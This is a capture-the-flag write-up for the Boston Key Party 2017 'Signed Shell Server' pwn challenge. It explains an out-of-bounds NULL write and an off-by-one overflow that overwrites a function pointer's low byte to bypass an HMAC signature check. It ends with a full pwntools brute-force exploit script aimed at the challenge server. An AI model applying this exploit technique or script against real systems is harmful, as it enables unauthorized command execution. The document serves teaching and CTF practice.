 ```yaml
---
layout: post
title: "Boston Key Party 2017: Signed Shell Server (pwn 200)"
author: f0rki, creed
categories: writeup
tags: [cat/pwn]
---
```


* **Category:** pwn
* **Points:** 200

## Write-up

You can do two things:

1. Sign a command
2. Execute a signed command

```
Welcome to Secure Signed Shell
1) sign command
2) execute command
>_ 1
what command do you want to sign?
>_ ls
signature:
0fcc9e22ff4cec3f5afbaf5906dba086
```

So we can see that the challenge signs with md5 by default!

## out-of-bounds NULL byte write -- force switch to sha1 

They use a HMAC based on md5 or sha1 depending on a global flag (set based on
argc). We call this `use_md5`. This is a byte sized varialbe that is placed
right behind the `global` buffer, which has size `0x100`. We can overwrite the
`use_md5` flag with a zero byte with the calls:

```c
i = read(global, 0x100, 0); // send exactly 255 bytes
global[i] = 0;              // out of bounds write to the use_md5 flag
```

This snippet of code is repeated in both the `sign_it` and `execute_it`
functions.

## overwrite least significant byte of a function pointer

There is a off-by-one error, which allows us to overwrite the last byte of the
first function pointer. We are targeting the `deny_ptr` in this struct:

```c
struct exec_guy {
    char hash[20];
    void (*deny_ptr)(char*);
    void (*success_ptr)(char*);
}
```

At the start of the `execute_it` function, `exec_guy` will be set to either
`m_exec_guy` or `s_exec_guy` depending on whether md5 or sha1 is used. If the
`use_md5` flag is true, the `exec_guy` is set to 
`s_exec_guy + 1 == m_exec_guy`. If we switch to using SHA1 afterwards, the HMAC
is copied to `exec_guy`, which is actually `s_exec_guy + 1`. So there is one
byte too less available for a full SHA1 HMAC and it will overflow into the
first byte of the `deny_ptr` field.

Since we're on little endian, this means we can control the least significant
byte of the function pointer. If we change the `deny_ptr` to the `success_ptr`
we effectively bypass the signature check.

```
[0x004010a0]> afl~command
0x00400d36    1 0    -> 37   sym.deny_command
0x00400d5b    1 0    -> 27   sym.exec_command
```

So we have to find a HMAC, whose last byte is `0x5b`. So first we checked
whether one of the HMACs we could legitimately obtain would fit our purposes.
We can do this by switching to SHA1 with an overlong command in the `sign_it`
function and then obtain the HMACs:

```
[*] 'ls' -> '4b0eef0a2c6a48fd0f52460231fe61bbfa8f314c' --> 0x400d4c     <-- printf something
[*] 'pwd' -> 'bf34cf2a14f5bbde6c75da9c6ba421fd57772d68' --> 0x400d68    <-- this jumps inside the right function at least, but seems to break
[*] 'id' -> 'e1b428253b9c847348c522e27d00a151f7db9458' --> 0x400d58     <-- nop; leave;ret
[*] 'whoami' -> 'ce6bd6b5229cf202a96ece2b36763e1adec566d1' --> 0x400dd1 <-- somewhere inside init_key
```

So none of those did work out in the end. The `pwd` HMAC looked pretty
promising as it triggers a jump into the `exec_command` function. But then crap
is loaded into the registers and it fails.

To use one of these commands we need to still send an overlong line, with
contents that are not hashed. The HMAC covers only the data up to the first
NULL byte, so we can send for example:

```python
"ls\n" + "\x00" * 253
```

This allows us to trigger the buffer overflow into the function pointer, with
one of the known HMACs.

## exploit recap

0. Call `execute_it`
1. First `exec_guy` is set to `m_exec_guy`, because `use_md5` is true.
2. Use off-by-one error to overwrite the `use_md5` flag with 0, so that SHA1 
   will be used. `exec_guy` is still set to `m_exec_guy`.
3. `memcpy` call at `0x00401261` will then overwrite the least significant 
   byte of the first function pointer.
    - The `src` of `memcpy` is the computed SHA1 HMAC
    - We need to find a HMAC which ends in `0x5b`
4. The function pointers are always loaded relative to the `m_exec_guy` so we 
   can use them safely even if we switched to SHA1
5. shell? shell! (or just cat flag)

In the end we just opted to bruteforce, until we hit a byte that worked. We
tried with a bunch of commands:

```sh
cat flag; echo <random stuff>
```

Eventually we got a working byte and the flag.

```python
from pwn import *  # noqa
import string
import random 

velf = ELF("./sss")
# this is the byte we'd need...
last_byte = velf.symbols['exec_command'] & 0xff
log.info("last byte of exec_command 0x{:x}".format(last_byte))

env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libcrypto.so.1.0.0")}

def make_vp():
    #return process("./sss_dealarmed", env=env)
    return remote("54.202.7.144", 9875)

# less verbosity for pwntools
context.log_level = "error"
while True:
    cmd = "cat flag; echo " + "".join(random.sample(string.letters, 5))
    vp = make_vp()
    # gdb.attach(vp, gdbscript)

    try:
        # now overflow into the use_md5 flag
        # which triggers a buffer overflow into the fptr
        vp.recvuntil(">_")
        vp.sendline("2")
        vp.recvuntil(">_")
        c = "{}\n\x00".format(cmd)
        c += "\x00" * (256 - len(c))
        vp.send(c)
        vp.recvuntil(">_")
        vp.sendline("wurscht")
        line = vp.recvrepeat(timeout=0.5)
        log.info("got line: " + repr(line))

    except:
        pass
    
    vp.close()
```
